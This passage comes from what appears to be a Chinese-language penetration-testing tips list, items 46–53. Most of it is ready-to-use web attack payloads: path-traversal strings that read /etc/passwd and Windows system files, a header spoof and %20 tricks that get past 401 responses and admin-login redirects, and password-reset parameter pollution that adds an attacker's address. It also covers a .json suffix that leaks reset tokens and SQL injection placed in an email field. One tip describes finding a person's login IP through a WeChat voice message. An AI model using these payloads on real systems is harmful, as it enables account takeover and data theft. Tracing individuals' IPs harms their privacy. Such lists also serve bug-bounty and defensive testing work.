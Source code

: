 46、SSRF常见的参数，详情请看dicts目录下的SSRF-extensions.txt文件。  
47、通过添加`.json`后缀，泄露一些敏感信息，比如：  
一次正常请求：  
GET /ResetPassword HTTP/1.1  
{"email":"victim@example.com"}  
响应：  
HTTP/1.1 200 OK

添加.json后缀的请求：  
GET /ResetPassword.json HTTP/1.1  
{"email":"victim@example.com"}  
响应：  
HTTP/1.1 200 OK  
{"success":"true","token":"596a96-cc7bf-9108c-d896f-33c44a-edc8a"}  
原链接：https://twitter.com/SalahHasoneh1/status/1293918353971531776

48、如果响应为401，可以试试在请求头中添加`X-Custom-IP-Authorization: 127.0.0.1`  
49、利用火绒剑，配合微信发语音的方式，可以获取该人的登录IP。  
50、目录穿越，敏感文件读取一些Payload：  
\\..\\WINDOWS\\win.ini  
..%5c..%5c../winnt/system32/cmd.exe?/c+dir+c:\\  
.?\\.?\\.?\\etc\\passwd  
../../boot.ini  
%0a/bin/cat%20/etc/passwd  
\\\\\&apos;/bin/cat%20/etc/passwd\\\\\&apos;  
..%c1%afetc%c1%afpasswd

51、在访问admin路径面板时可以通过添加`%20`，来绕过，具体如下：  
target.com/admin –\> HTTP 302 (重定向到登录页面)  
target.com/admin%20/ \-\> HTTP 200 OK  
target.com/%20admin%20/ \-\> HTTP 200 OK  
target.com/admin%20/page \-\> HTTP 200 OK

52、在重置密码的地方，可以尝试添加另外一个次要的账号，比如，手机号，邮箱号等等，比如：  
a、构造两个参数：  
	email=victim@xyz.tld\&email=hacker@xyz.tld  
b、使用抄送方式:  
	email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld  
c、使用分隔符：  
	email=victim@xyz.tld,hacker@xyz.tld  
	email=victim@xyz.tld%20hacker@xyz.tld  
	email=victim@xyz.tld|hacker@xyz.tld  
d、不使用域名：email=victim  
e、不使用顶级域名：email=victim@xyz  
f、JSON情况：  
{"email":\["victim@xyz.tld","hacker@xyz.tld"\]}

53、如果有利用邮箱重置密码功能的情况，而且还是JSON传输的情况下，使用SQLmap跑注入，可以将`*`（星号）放在`@`之前，比如：  
{“email”:”test\*@xxx.com”}  
或者在\*（星号）这个地方进行手注  
原因大家可以看这里：https://tools.ietf.org/html/rfc3696\#section-3

原文链接：https://www.infosecmatter.com/bug-bounty-tips-7-sep-27/\#2\_bypass\_email\_filter\_leading\_to\_sql\_injection\_json


[image1]: https://github.com/Power7089/PenetrationTest-Tips/blob/main/img/01cyber.jpg
[image2]: https://github.com/Power7089/PenetrationTest-Tips/raw/main/img/403%E7%BB%95%E8%BF%87.jpg
[image3]: https://github.com/Power7089/PenetrationTest-Tips/raw/main/img/GOpher%E5%8D%8F%E8%AE%AE.png